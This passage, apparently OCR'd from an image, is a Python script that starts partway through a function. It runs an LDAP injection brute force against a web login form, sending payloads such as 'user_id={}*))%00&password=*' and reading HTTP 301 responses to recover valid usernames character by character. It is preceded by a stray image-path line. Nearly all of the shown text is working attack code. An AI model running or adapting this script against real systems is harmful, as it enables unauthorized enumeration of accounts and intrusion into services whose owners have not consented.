 ```python

    p1.status("Initializing brute force process")
    time.sleep(5)

    for character in characters: 
        payload = "user_id={}*))%00&password=*&login=1&submit=Submit".format(character)
        p1.status("Sending payload: {}".format(payload))
        r = requests.post(url, headers=headers, data=payload, allow_redirects=False) #proxies=burp_proxy
        if r.status_code == 301: 
            users.append(character)

    return users


def getUser(letter): 

    user = letter 

    for i in range(1,10):
        for character in characters:
            payload = "user_id={}{}*))%00&password=*&login=1&submit=Submit".format(user,character)
            p1.status("Sending payload: {}".format(payload))
            p2.status(user)
            r = requests.post(url, headers=headers, data=payload, allow_redirects=False)
            if r.status_code == 301: 
                user+=character

    return user 


if __name__ == "__main__": 
    initialUsers = getInitialUsers()
    users = []
    for initial in initialUsers:
        users.append(getUser(initial))
        
    print("""\n\n============== Users finded =================  
(!) {}\n\n""".format(users))
```


